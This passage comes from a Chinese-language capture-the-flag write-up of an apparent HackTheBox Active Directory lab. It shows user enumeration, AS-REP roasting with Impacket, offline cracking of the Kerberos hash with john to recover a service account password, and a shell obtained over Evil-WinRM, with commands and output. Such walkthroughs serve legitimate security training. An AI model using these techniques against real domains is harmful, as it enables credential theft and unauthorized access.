```shell
user:[sebastien] rid:[0x479]
user:[lucinda] rid:[0x47a]
user:[svc-alfresco] rid:[0x47b]
user:[andy] rid:[0x47e]
user:[mark] rid:[0x47f]
user:[santi] rid:[0x480]
```

> `enum4linux 10.10.10.161`

## 攻击利用

考虑使用`AS-REP ROASTING`[^3]

```shell
Impacket v0.12.0.dev1 - Copyright 2023 Fortra

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2024-07-18 13:48:13.563719  2024-07-18 13:49:06.626340  0x410200



$krb5asrep$23$svc-alfresco@HTB.LOCAL:42c3c145fa0690d8e9c7c24ebd156254$5bfab1a307380374575b88151a6ba0a480fdf5ca8b626df4665f4ae6e7029fbc0ea15f936574338a45a25c2e373e907d36bcab3541726f5b96189160b900607ed3973500a65db1b3ea5da60c10351c061a3cc63383784608b46ed6076bd3ac9d7cc56a9a0774f11547479e07a98d87db82ad9ec98f758d557d74b0ff69c988e4aa53cc99f8c449b124191f7a69fc998105f6d02896a80f807e002508e77ed73061abbfbd85481a7b848c1dd81f7c334b6845969eff6bb0aa1eadf5c88007395cd0ac1c8dd379e7e0b82c5807b2b1ffbcacf70a6350c5ffa9e580312f0af3fbceaa14d7179530
```

> `GetNPUsers.py htb.local/ -dc-ip 10.10.10.161 -request`

爆破`hash`

```shell
Created directory: /home/kali/.john
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 128/128 SSE2 4x])
Will run 2 OpenMP threads per process (8 total across 4 processes)
Node numbers 1-4 of 4 (fork)
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
```

> `john hash --fork=4 -w=/usr/share/wordlists/rockyou.txt`

得到账密`svc-alfresco/s3rvice`

```shell
Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\svc-alfresco\Documents>whoami
htb\svc-alfresco
```


[^3]: 对于未启用预身份验证的用户帐户（基本上禁用了 Kerberos 预身份验证），它容易受到 AS-REP Roasting 攻击。我们可以在不提供任何身份验证的情况下请求该用户的 Kerberos TGT 票证，并且我们将取回的 TGT 票证将使用该帐户的密码进行加密。所以我们可以离线破解哈希值。使用Impacket的GetNPUsers.py脚本，我们可以进行攻击
[^5]: https://github.com/BloodHoundAD/SharpHound/releases/tag/v2.4.1